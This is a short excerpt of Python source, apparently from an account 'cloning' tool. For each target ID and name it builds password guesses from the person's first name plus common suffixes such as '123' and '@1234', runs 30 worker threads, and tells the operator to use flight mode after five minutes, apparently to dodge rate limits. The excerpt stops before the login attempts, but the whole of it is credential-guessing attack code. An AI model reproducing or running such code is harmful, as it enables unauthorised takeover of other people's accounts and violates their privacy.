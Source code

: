 def passwrd():

	os.system('clear')

	banner()

	print(f' [\u001b[36m•\033[1;37m] TOTAL IDz : \u001b[36m',str(len(id)))

	print(" \033[1;37m[\u001b[36m•\033[1;37m] YOU STARTED CLONING AT : "+time.strftime("%H:%M")+" "+ tag)

	linex()

	print(f' \u001b[36m>> \033[1;37m️USE FLIGHT MODE AFTER 5 MINUTES ')

	linex()

	with tred(max_workers=30) as pool:

		for yuzong in id2:

			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()

			frs = nmf.split(' ')[0]

			pwv = []

			if len(nmf)<6:

				if len(frs)<3:

					pass

				else:

					pwv.append(nmf)

					pwv.append(frs+'@@')

					pwv.append(frs+'123')

					pwv.append(frs+'123@')

					pwv.append(frs+'123@@@')

					pwv.append(frs+'1234')

					pwv.append(frs+'1234@')

					pwv.append(frs+'12345')

					pwv.append(frs+'123456')

					pwv.append(frs+'@123')

					pwv.append(frs+'@@123')

					pwv.append(frs+'@1234')

					pwv.append(frs+'@12345')

					pwv.append(frs+'@123456')

			else:
